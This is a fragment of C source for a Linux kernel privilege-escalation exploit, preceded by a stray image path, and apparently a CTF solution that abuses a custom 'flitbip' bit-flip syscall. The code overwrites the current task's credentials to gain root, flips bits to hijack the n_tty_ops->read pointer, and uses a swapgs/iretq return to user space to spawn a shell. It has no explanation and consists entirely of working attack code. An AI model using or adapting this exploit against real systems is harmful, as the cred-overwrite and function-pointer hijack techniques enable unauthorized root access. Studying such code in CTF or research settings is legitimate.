 ```c
    int *cred = *(unsigned long *)((char *)*CURRENT_TASK + TASK_STRUCT_CRED_OFFSET);
    for(int index=1; index<9; index++) {
        cred[index] = 0;
    }

    *(unsigned long **)((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET) = N_TTY_READ;

    unsigned long sh = (unsigned long)get_shell;

    // Return to user space
    __asm__(
        "swapgs\n"
        "push %0\n"
        "push %1\n"
        "push %2\n"
        "push %3\n"
        "push %4\n"
        "iretq\n"
        : "=m"(SS), "=m"(RSP), "=m"(RFLAGS), "=m"(CS), "=m"(sh)
    );
}

int main(void) {
    // Save context to get good variables for the return from kernel-land to user-land
    __asm__(
        "mov %%rsp, %0\n"
        "mov %%ss, %1\n"
        "mov %%cs, %2\n"
        "pushf\n"
        "pop %3\n"
        : "=r"(RSP), "=r"(SS), "=r"(CS), "=r"(RFLAGS)
    );

    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);

    // Write n_tty_ops->read address
    unsigned long mask = (unsigned long)N_TTY_READ ^ (unsigned long)privilege_escalation;
    for(long index=0; index<64; index++) {
        if(mask & (1ULL << index)) {
            flitbip((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET, index);
        }
    }
    
    // Trigger the n_tty_ops->read operation
    char c;
    scanf("%c", &c);

    return 0;
}
```
